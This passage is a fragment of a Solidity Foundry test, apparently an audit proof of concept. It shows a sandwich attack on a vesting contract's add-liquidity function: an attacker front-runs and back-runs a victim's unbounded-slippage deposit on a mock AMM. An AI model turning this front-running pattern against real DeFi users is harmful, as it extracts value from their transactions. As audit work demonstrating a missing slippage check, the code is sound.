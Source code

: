 ```solidity

        (amountsIn, lpAmount) = amm.addLiquidity(msg.sender, amount, maxUsdcIn);
        lockedAmount[address(amm.symm())][msg.sender] = symmLockedAmount - amountsIn[0];
        lockedAmount[address(amm.lpToken())][msg.sender] += lpAmount;
        return (amountsIn, lpAmount);
    }
}

// Test contract demonstrating the sandwich attack
contract SandwichAttackPoC is Test {
    MockAMM amm;
    SymmVesting vesting;
    address attacker = address(0x1);
    address victim = address(0x2);

    // Setup initial state for the test
    function setUp() public {
        amm = new MockAMM();
        vesting = new SymmVesting(address(amm));

        // Fund attacker and victim with tokens
        amm.symm().mint(attacker, 1000 ether);
        amm.usdc().mint(attacker, 1000 ether);
        amm.symm().mint(victim, 1000 ether);
        amm.usdc().mint(victim, 1000 ether);

        // Approve AMM to spend tokens
        vm.startPrank(attacker);
        amm.symm().approve(address(amm), type(uint256).max);
        amm.usdc().approve(address(amm), type(uint256).max);
        vm.stopPrank();

        vm.startPrank(victim);
        amm.symm().approve(address(amm), type(uint256).max);
        amm.usdc().approve(address(amm), type(uint256).max);
        vm.stopPrank();

        // Lock 100 SYMM for victim in vesting
        vm.prank(victim);
        vesting.setupVesting(address(amm.symm()), victim, 100 ether);
    }

    // Test the sandwich attack scenario
    function testSandwichAttack() public {
        uint256 amount = 100 ether;
        uint256 maxUsdcIn = type(uint256).max;

        // Step 1: Attacker front-runs by buying SYMM with USDC
        vm.startPrank(attacker);
        amm.swap(100 ether, 0, false); // USDC -> SYMM
        vm.stopPrank();

        // Step 2: Victim adds liquidity using vested SYMM
        vm.startPrank(victim);
        vesting.addLiquidityProcess(amount, maxUsdcIn);
        vm.stopPrank();

        // Step 3: Attacker back-runs by selling SYMM for USDC
        vm.startPrank(attacker);
        amm.swap(100 ether, 0, true); // SYMM -> USDC
        vm.stopPrank();

        // Verify outcomes
```